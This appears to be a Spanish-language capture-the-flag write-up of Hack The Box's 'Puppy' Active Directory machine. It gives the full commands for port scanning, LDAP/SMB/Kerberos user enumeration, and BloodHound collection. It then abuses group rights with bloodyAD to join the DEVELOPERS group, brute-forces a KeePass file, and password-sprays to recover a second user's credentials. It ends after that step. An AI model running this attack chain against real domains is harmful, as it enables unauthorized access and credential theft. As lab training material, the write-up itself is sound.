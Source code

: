 levi.james:KingofAkron2025!
## Reconocimiento

### Scaneo de puertos y servicios
Empezaremos realizando un reconocimiento con la herramienta de [[RUSTSCAN]] que es un [[NMAP]] con esteroides:
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

```ad-info
rustscan tambien usa herramintas de nmap para una mejor respuesta sobre el reconocimiento de puertos
```

En caso de querer usar solo [[NMAP]]

Los puertos encontrados mas relevantes son:
```js
53 - DNS
88 - kerberos
111 - rpcbind
389 - LDAP
445 - SMB
5985 - WinRm
```

Usaremos [[CRACKMAPEXEC-NETEXEC]] para enumerar información básica del servicio **LDAP**.
`netexec ldap $IP 2>/dev/null` 

```js

LDAP $IP 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)

```

Nos muestra: el protocolo `LDAP` la `IP` y el puerto `389`, a continuación nos muestra el rol del host `DC` que es **Domain Controller**, identificación del sistema operativo , nombre del host y dominio completo `FQDN`


Usaremos la herramienta de `https://github.com/Gzzcoo/iRealm` para añadir la maquina al `/etc/hosts` y el nombre de dominio y FQDN a `/etc/krb5.conf`
`iRealm --force $IP PUPPY.HTB DC`

### Verificación de credenciales
Verificamos las credenciales que nos han aportado son validas con [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!'`

Nos mostrara que las credenciales son validas

#### Búsqueda de información en recursos compartidos
Buscamos recursos compartidos en el servicio *SMB* con [[CRACKMAPEXEC-NETEXEC]]
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Usaremos la opción `--shares` para listar los recursos compartidos y el modulo `-M spider_plus` para hacer una búsqueda profunda de recursos compartidos nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

### Enumeración Usuarios

Podemos probar con [[RPCCLIENT]] con una NULL SESSION
`rpcclient -U "" $IP -N` -> `enumdomusers`

Luego probaremos con USER:PASS con [[RPCCLIENT]]
`rpcclient -U 'levi.james%KingofAkron2025!' $IP` -> `enumdomusers`
Nos enumerara los usuarios del dominio

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`

También podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
`netexec ldap $IP -u users.txt -p '' -k`

 ```ad-note
   El error KDC_ERR_PREAUTH_FAILED la contraseña no funciona pero existe el usuario
  El error KDC_ERR_CLIENT_REVOKED existe el usuario
 ```

Para verificar y enumerar que existan en el dominio con la herramienta [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`

```ad-hint    
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

### Verificación de diferentes vectores de ataque

```ad-info

#### AS-REP ROASTING (Sin creds)
Busca obtener _hashes_ de contraseñas de usuarios que tengan deshabilitada la **preautenticación Kerberos**
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque.

#### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga **serviceprincipalname** (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque.  
```


### Recopilación de datos de AD

Recopilaremos unformacion del LDAP y lo guardaremos en un `.zip` que es le usaremos para subir al **BloodHound**, usaremos la herramienta [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server $IP`
Usaremos la opcion `--bloodhound` que activa el modulo de recoleccion de datos, usamos tambien `--collection All` especifica que se usen todos los metodos de recoleccion de datos. Y `--dns-server $IP` se usa para que la herramienta use el **DC** como DNS.

EL archivo que nos genera lo subiremos a **BloodHound**

```ad-note
Para ejecutar **BloodHound** hemos creado un script el cual para levantar el servicio solo tendremos que hacer `bloodHound up` y navegar a la web.
Una vez dentro de la web importaremos el `.zip`
```

Para buscar a que grupo pertenecemos, en el buscador de **bloodHound** el usuario que nos facilitaron al principio `levis.james`
Y en *Outbound Object Control* vemos que el usuario es miembro de `HR@PUPPY.HTB` que tiene capacidad de modificar y añadir atributos en otro grupo del que es miembro en este caso del grupo `DEVELOPERS@PUPPY.HTB`  


Sabiendo que tenemos esos "privilegios" añadimos el usuario al grupo **DEVELOPERS**
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos añadido al grupo **DEVELOPERS** volvemos a acceder al **SMB** y tendremos acceso a la carpeta compartida **DEV**
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de *keepass* `kdbx` 
`recovery.kdbx`

```ad-info
KeePass es un **gestor de contraseñas de código abierto y gratuito** que te ayuda a **almacenar de forma segura** tus nombres de usuario, contraseñas y otros datos sensibles.
```

Nos descargamos el archivo que hemos encontrado con [[CRACKMAPEXEC-NETEXEC]]
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

El archivo descargado lo subimos **Keepassxc** para poder ver su contenido nos pide una password como no tenemos esta contraseña haremos fuerza bruta hacia el archivo

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`

Una vez conseguimos ver los datos de usuarios y passwords guardaremos las contraseñas en un archivo, y junto con los usuarios que encontramos al principio y haremos fuerza bruta para ver si alguna contraseña le pertenece a algún usuario. 
Usaremos [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u users.txt -p pass.txt --continu-on-success | grep '[+]'`

Nos encuentra el siguiente user y su password
```ad-hint
[+] PUPPY.HTB\ant.edwards:Antman2025!
```





